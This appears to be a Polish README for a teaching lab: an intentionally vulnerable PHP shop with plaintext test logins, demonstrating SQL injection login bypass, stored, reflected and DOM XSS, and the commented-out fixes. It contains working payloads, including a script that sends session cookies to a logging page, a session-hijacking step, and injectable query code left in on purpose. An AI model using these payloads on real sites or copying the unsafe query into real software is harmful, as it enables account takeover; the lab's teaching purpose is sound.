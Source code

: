 Potrzebne loginy  (poza tym dołączam zrzut bazy danych z potrzebnymi tabelami do logowania i składania zamówień. Hasła userów w czystej formie, niezahashowane. Nazwa bazy danych ustawiona na s130719 w pliku connect.php w zmiennej $dbName. W razie potrzeby zmienić)
admin:12345
klient:12345

___
SQL Injection
___
Przy niezabezpieczonej stronie można w formularzu logowania przekazać swoje zapytanie SQL. Znając username da się zalogować bez hasła. Np dla username "admin", może wyglądać to tak- admin ' -- (admin, spacja, apostrof, spacja, 2 myślniki, spacja)
Nie znając username można metodą prób i błędów próbować odgadnąć nazwy kolumn w tabeli i próbować zalogować np. poprzez id (może równie dobrze być mail jeśli jest znany atakującemu)
' OR id=1 -- 

Zabezpieczenie- w pliku login.php jest fragment gdzie zakomentowane są zabezpieczenia

        $login = $_POST['login'];
        $password = $_POST['password'];

    //    $login = htmlentities($login, ENT_QUOTES, "UTF-8");
    //    $password = htmlentities($password, ENT_QUOTES, "UTF-8");



        $sql = "SELECT * FROM users WHERE user='$login' AND pass='$password'";

        if ($result = @$conn->query($sql))
      //      sprintf("SELECT * FROM users WHERE user='%s' AND pass='%s'",
      //      mysqli_real_escape_string($conn,$login),
      //      mysqli_real_escape_string($conn,$password))))

Odkomentować je (i przy ifie usunąć fragment "$sql))"  . Będzie wyglądać to tak jak niżej. Można równie dobrze zakomentować/usunąć linię ze zmienną $sql bo nie jest już używana. Zapytanie jest bezpośrednio w ifie ze zmiennymi przepuszczonymi dodakowo przez mysqli_real_escape_string())


        $login = $_POST['login'];
        $password = $_POST['password'];

        $login = htmlentities($login, ENT_QUOTES, "UTF-8");
        $password = htmlentities($password, ENT_QUOTES, "UTF-8");



        $sql = "SELECT * FROM users WHERE user='$login' AND pass='$password'";

        if ($result = @$conn->query(
            sprintf("SELECT * FROM users WHERE user='%s' AND pass='%s'",
            mysqli_real_escape_string($conn,$login),
            mysqli_real_escape_string($conn,$password))))


htmlentities()- zmienia potencjalnie niebezpieczne znaki na encje html (np < zostaje zmienione na &lt; . Przy wyświetlaniu, HTML pokaże też znak < ale nie zinterpretuje go jako otwieranie tagu przy próbie wpisania tagów html. <script> zostanie zmienione na &lt;script&gt;

mysqli_real_escape_string()   - dodaje \ przed potencjalnie niebezpiecznymi znakami. Np '  (zostaje zapisane jako \' dzięki czemu apostrof nie jest traktowany jako zakończenie stringa, tylko jako jego część)

____________________________________________________________

XSS-
Wykorzystuje brak lub luki w sanityzacji i walidacji inputu usera. W najprostszej postaci polega na wbiciu swojego kodu javascript w tagach <script> w miejscu gdzie mogą na niego wpaść potencjalne ofiary (tablice ogłoszeniowe, profile użytkownika i inne)


Stored XSS:
Na tej stronie przykładowo klient w formularzu zamówień po zalogowaniu może do szczegółów zamówienia wpisać swój skrypt przykładowo tutaj: <script>window.location.replace("http://localhost/test.php?cookie="+document.cookie);</script>
W takim wypadku w bazie danych zostaje zapisany ten skrypt, admin po wejściu na listę zamówień otrzymuje w tej liście z zaufanego serwera złośliwy kod który zostaje wykonany przez przeglądarkę. W tym wypadku zostaje przekierowany na podstronę test.php i do zmiennej cookie zapisane zostanie cookie obecnej sesji użytkownika. 
test.php który zapisuje cookie, ip, przeglądarkę i godzinę przechwycenia i zapisuje te dane w logi.txt
Widnieje wtedy tam przykładowo takie zapisane PHPSESSID "PHPSESSID=uftg02hvsde3vg1fj8qjvtglpe".
Atakujący mając id sesji ofiary może ustawić to id u siebie przykładowo poprzez wpisanie w konsoli przeglądarki: document.cookie = "PHPSESSID=uftg02hvsde3vg1fj8qjvtglpe"  i odświeżenie strony. O ile ofiara nie wylogowała swojego konta (wylogowując się, zamyka się najczęsćiej sesję usuwając zmienne sesyjne) to atakujący ma wtedy pełny dostęp do takiego konta.
PHPSESSID może być nazwane w inny sposób, nie zawsze jest na pierwszy rzut oka oczywiste która zmienna to phpsessid zapisane w cookie.
Poza tym drugą drogą przekazywania zmiennej sesyjnej może być document.location.href (link w przeglądarce).

Reflected XSS:
W tym wypadku złośliwy skrypt nie jest zapisany na serwerze na stałe, ale jest odsyłany przez serwer w odpowiedzi na zapytanie. W tym wypadku atak najczęściej polega na skłonieniu ofiary do kliknięcia w odpowiednio przygotowany link.
Tutaj dla przykładu strona 404.php (http://localhost/404.php) wyświetla informację o błędzie not found jednocześnie wyświetlając błędny odnośnik Not found: /404.php.
W takim wypadku można do takiej strony spróbować dodać swój skrypt przykładowo: http://localhost/404.php?<script>alert("test");</script>. Skrypt taki może być także napisany w taki sposób by przenosił na stronę która jak test.php przechwytuje dane ofiary po przeniesieniu.

DOM Based XSS:
w pliku form.php mamy prosty formularz z okienkiem wyboru. Okienko wyboru wstępnie wyświetla opcję domyślną zawartą w linku
http://localhost/form.php?default=French
Atakujący taką stronę może w linku zamieścić kod javascriptu. 
http://localhost/form.php?default=<script>alert(document.cookie)</script>
Niezabezpieczona strona, po wyświetleniu treści przez taki link wykona skrypt atakującego.

________________________



Dla przykładu zabezpieczenia user inputu w oknie zamówień- W pliku dborder.php jest fragment kodu z zakomentowanym przepuszczeniem zmiennej $opis przez htmlentities (wystarczy usunąć komentarz)

$opis = $_POST['desc'];
$idClient = $_SESSION['id'];
// $opis = htmlentities($opis, ENT_QUOTES, "UTF-8");

htmlentites będzie tutaj najprostszą (ale nie jedyną) metodą zabezpieczenia poprzez podmienienie określonych znaków na encje html.
Dodatkowo można zastosować escaping user input (wcześniej wspomniane przy mysqli_real_escape_string) przy wszelkich encjach HTML, URL czy javascriptu (jeśli nie chcemy pozwolić użytkownikom na używanie kodu na stronie)
Walidacja inputu usera- nie pozwalać na używanie określonych znaków w inpucie

Jeśli chcemy pozwolić użytkownikom na używanie pewnych tagów htmla (na przykład <img> żeby pozwolić im wstawiać obrazy) trzeba zwrócić uwagę na niektóre atrybuty i nie zezwalać na ich używanie. Przykładowo w tagu <img> można umieścić atrybut onerror="" który także może wywołać niebezpieczny kod javascriptu, więc samo zabronienie używania tagów <script> nie wystarczy.
